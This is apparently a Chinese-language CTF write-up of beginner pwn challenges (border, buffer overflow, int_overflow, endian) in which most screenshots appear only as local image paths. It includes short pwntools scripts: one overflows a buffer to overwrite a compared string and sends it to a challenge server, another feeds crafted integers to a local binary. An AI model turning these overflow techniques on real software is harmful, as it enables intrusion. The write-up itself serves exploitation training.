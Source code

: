 ![image-20220925185119155](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20220925185119155.png)

第一个输入1，第二个输入0即可得到flag

read()的fd输入0会从标准输入读取字符覆盖flag

### border

IDA打开

![image-20220925192003998](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20220925192003998.png)

可看到输入小于0x40时可进入读取，byte_6010C0和byte_6010E0连在一起，puts可全部输出，content输入15个1然后回车可打印出完整flag

![image-20220925191940864](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20220925191940864.png)

### buffer overflow

![image-20220925194530803](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20220925194530803.png)

用read()的越界输入覆盖到v5，修改v5为 'Limiter and Wings are beautiful girls!' ，最后要加上 \x00,作为strcmp识别结束的标志

```python
#!/usr/bin/env python3
from pwn import*

io = remote("moectf.challenge.ctf.show",27001)
#io = process("./buffer_overflow")

length = 70
key = "Limiter and Wings are beautiful girls!"

payload = ('A'*length).encode() + key.encode() + b'\x00'
io.send(payload)
io.interactive()
```

### int_overflow

![image-20220925195657991](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20220925195657991.png)

不能输入负数，直接计算器     0x100000000-对应数字    就行

### endian

![image-20221006221936826](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006221936826.png)

只允许输入整数，把s2看成首地址，计算器把字符串对应的十六进制数字转成十进制，分别输入到s2，v5里面，注意小端序

exp：

```python
#!/usr/bin/env python3
from pwn import *

#io = remote("43.136.137.17",3912)
io = process("./endian")

num1 = '1634429261'
num2 = '1112436596'

io.sendline(num1)
io.sendline(num2)
io.interactive()
```
